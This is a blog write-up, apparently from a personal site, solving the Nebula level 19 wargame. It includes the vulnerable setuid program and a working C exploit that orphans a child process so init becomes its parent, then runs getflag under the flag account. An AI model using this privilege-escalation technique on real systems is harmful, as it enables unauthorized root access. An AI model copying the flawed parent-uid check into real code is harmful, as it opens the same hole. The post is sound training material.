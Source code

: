 ```yaml
---
title: "Exploit Exercises Nebula Level19"
date: "2016-02-22"
slug: "exploit-exercises-nebula-level19"
Categories:
- Exploit Exercises
---
```


[Level19] provides us with the following code:

        #include <stdlib.h>
        #include <unistd.h>
        #include <string.h>
        #include <sys/types.h>
        #include <stdio.h>
        #include <fcntl.h>
        #include <sys/stat.h>

        int main(int argc, char **argv, char **envp)
        {
          pid_t pid;
          char buf[256];
          struct stat statbuf;

          /* Get the parent's /proc entry, so we can verify its user id */

          snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

          /* stat() it */

          if(stat(buf, &statbuf) == -1) {
              printf("Unable to check parent process\n");
              exit(EXIT_FAILURE);
          }

          /* check the owner id */

          if(statbuf.st_uid == 0) {
              /* If root started us, it is ok to start the shell */

              execve("/bin/sh", argv, envp);
              err(1, "Unable to execve");
          }

          printf("You are unauthorized to run this program\n");
        }

And this very detailed hint:

"There is a flaw in the below program in how it operates."

...No way!!

<!--more-->

This comment is the key <code>/* If root started us, it is ok to start the shell */</code>

In order to achieve this, we will need to force create an orphan process that would be claimed by *init*, which is owned by root.

Let's write some c code to accomplish that.

        level19@nebula:~$ cat orphanage.c
        #include <stdio.h>
        #include <unistd.h>
        #include <stdlib.h>

        int main(int argc, char **argv, char **envp){
            int child;
            child = fork();
            if(child >= 0){
                if(child == 0){
                    sleep(1);
                    setresuid(geteuid(),geteuid(),geteuid());
                    char *args[] = {"/bin/sh", "-c", "/bin/getflag", NULL};
                    execve("/home/flag19/flag19", args, envp);
                }
            }
            exit(0);
        }


Time to compile and test:

        level19@nebula:~$ gcc -o orphanage orphanage.c
        level19@nebula:~$ ./orphanage
        level19@nebula:~$ You have successfully executed getflag on a target account

Nebula completed! I want to thank the team over at Exploit Exercises for making this challenge available. I learned a ton from working through this war game, it provided me hands-on practice in a number of areas that I was looking to improve my skills.

Thanks again for reading!

[Mike][]

[Level19]: https://exploit-exercises.com/nebula/level19/ "Level19"
[Mike]: /contact "Contact Mike"

